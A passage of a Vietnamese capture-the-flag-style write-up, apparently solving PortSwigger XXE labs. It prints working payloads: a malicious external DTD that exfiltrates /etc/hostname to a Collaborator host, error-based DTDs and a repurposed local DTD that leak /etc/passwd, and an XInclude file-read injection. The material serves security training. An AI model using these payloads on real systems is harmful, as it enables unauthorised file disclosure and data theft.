

Vậy là hoàn thành bài lab này.

-----------------------------------------------------------------

**Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**



Mục tiêu của bài lab này là khai thác Blind XXE kết hợp với một tệp DTD độc hại lưu trữ bên ngoài để trích xuất nội dung file `/etc/hostname`.

Ta mở giao diện Exploit Server được cung cấp sẵn trong bài lab.



Ta tạo một file DTD độc hại với tên `exploit.dtd` trên Exploit Server. File này sẽ đọc nội dung file `/etc/hostname` và gắn vào tham số URL gửi đến Burp Collaborator.

```xml
<!ENTITY % read SYSTEM "file:///etc/hostname">
<!ENTITY % make_mal "<!ENTITY &#x25; retrieve SYSTEM 'http://4355u1c1zyxnn9u4ywr8tctbn2tthn5c.oastify.com/x=%read;'>">
%make_mal;
%retrieve;
```


Trong request Check stock, ta thêm khai báo nạp tệp DTD độc hại từ Exploit Server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY % steal SYSTEM "https://exploit-0abd003d033b988484fdbdf9012400a8.exploit-server.net/exploit.dtd"> %steal;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```



Chuyển sang tab Burp Collaborator, ta thấy request HTTP gửi về chứa chuỗi `/x=7e94fa01b562`. Ta trích xuất được hostname là `7e94fa01b562`, điền đáp án để hoàn thành bài lab.



-----------------------------------------------------------------

**Lab: Exploiting blind XXE to retrieve data via error messages**



Bài lab yêu cầu kích hoạt thông báo lỗi của trình phân tích XML để làm lộ nội dung tệp tin `/etc/passwd`.

Ta truy cập vào Exploit Server để chuẩn bị tệp DTD.



Tạo file `exploit.dtd` trên Exploit Server với nội dung đọc file `/etc/passwd` rồi cố tình gọi tới một đường dẫn không tồn tại chứa nội dung file đó (`file:///nonexistent/%file;`).

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; boom SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%boom;
```



Bây giờ ta gửi request Check stock kèm khai báo nạp tệp DTD bên ngoài từ Exploit Server.



Khi server xử lý tệp DTD, do đường dẫn không tồn tại nên parser đã trả về thông báo lỗi chi tiết kèm theo toàn bộ nội dung của file `/etc/passwd`.



Vậy là hoàn thành bài lab này.

-----------------------------------------------------------------

**Lab: Exploiting XXE to retrieve data by repurposing a local DTD**



Bài lab này đặt trong tình huống hệ thống chặn hoàn toàn các kết nối ra ngoài (out-of-band), nhưng ta có thể tái sử dụng một tệp DTD cục bộ có sẵn trên hệ thống Linux (cụ thể là `/usr/share/yelp/dtd/docbookx.dtd`) và ghi đè thực thể `ISOamso`.

Mục tiêu là trích xuất file `/etc/passwd`.



Ta chèn payload vào request XML để tái sử dụng tệp DTD cục bộ, đồng thời định nghĩa lại thực thể để gây lỗi và in nội dung file ra màn hình:

```xml
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
    %local_dtd;
]>
```



Server nạp DTD cục bộ, thực thi chuỗi thực thể và trả về thông báo lỗi chứa nội dung file `/etc/passwd`.



Vậy là hoàn thành bài lab này.

-----------------------------------------------------------------

**Lab: Exploiting XInclude to retrieve files**



Bài lab này yêu cầu đọc nội dung file `/etc/passwd` nhưng ứng dụng chỉ cho phép người dùng nhập vào một tham số đơn lẻ chứ không kiểm soát toàn bộ tài liệu XML. Trong trường hợp này ta sử dụng tính năng XInclude.

Bắt request kiểm tra kho hàng, dữ liệu gửi lên là dạng URL-encoded gồm `productId` và `storeId`.


Ta chèn đoạn mã XInclude vào giá trị của tham số `productId` để nạp file `/etc/passwd`:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```



Gửi request đi, server giải mã XML và nhúng trực tiếp nội dung file `/etc/passwd` vào phản hồi.



Vậy là hoàn thành lab.

-----------------------------------------------------------------

**Lab: Exploiting XXE via image file upload**


Đề bài yêu cầu lấy nội dung file `/etc/hostname` thông qua chức năng upload ảnh đại diện bằng cách tải lên một file ảnh định dạng vector SVG có chứa payload XXE.

Truy cập vào bài lab ta thấy phần bình luận cho phép người dùng đính kèm file ảnh đại diện.

